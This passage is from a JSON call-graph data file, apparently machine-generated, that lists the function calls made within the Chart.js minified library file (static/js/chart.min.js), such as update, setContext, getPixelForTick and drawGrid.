"resolveDatasetElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "datasetElementScopeKeys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getOptionScopes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveNamedOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveAnimations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "datasetAnimationScopeKeys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getOptionScopes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "createResolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getSharedOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "includeOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getSharedOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getSharedOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "includeOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateSharedOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveAnimations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateSharedOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveAnimations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_setStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveAnimations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeHoverStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_setStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setHoverStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_setStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_removeDatasetHoverStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_setStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_setDatasetHoverStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_setStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resyncElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_insertElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_removeElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_insertElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_removeElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_sync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_onDataPush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_sync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_onDataPop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_sync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_onDataShift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_sync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_onDataSplice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_sync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_sync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_onDataUnshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_sync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "tooltipPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "hasValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_tickSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getUserBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMinMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getUserBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMatchingVisibleMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMinMax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPadding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getTicks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeLabelItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeLayout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeSetDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterSetDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeDataLimits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "determineDataLimits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterDataLimits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeBuildTicks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildTicks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterBuildTicks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_convertTicksToLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeCalculateLabelRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "calculateLabelRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterCalculateLabelRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterAutoSkip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_convertTicksToLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeFit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterFit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeSetDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterSetDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_callHooks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeDataLimits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_callHooks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "determineDataLimits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterDataLimits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_callHooks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeBuildTicks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_callHooks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildTicks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterBuildTicks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_callHooks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeTickToLabelConversion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "generateTickLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterTickToLabelConversion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeCalculateLabelRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "calculateLabelRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getLabelSizes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "asin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "asin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterCalculateLabelRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterAutoSkip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeFit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_isVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getLabelSizes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_calculatePadding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_handleMargins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_calculatePadding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_handleMargins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterFit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isFullSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_convertTicksToLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "generateTickLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterTickToLabelConversion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getLabelSizes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeLabelSizes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeLabelSizes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getValueForPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForDecimal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDecimalForPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBasePixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBaseValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_tickSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getLabelSizes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_isVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMatchingVisibleMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeGridLineItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeLabelItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getXAxisLabelAlignment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getXAxisLabelAlignment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getYAxisLabelAlignment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getYAxisLabelAlignment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getXAxisLabelAlignment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getYAxisLabelAlignment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getLabelSizes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveTickFontOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getXAxisLabelAlignment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getYAxisLabelAlignment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getLabelSizes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeLabelArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawBackground"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLineWidthForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "findIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawGrid"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeGridLineItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_computeLabelArea"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": 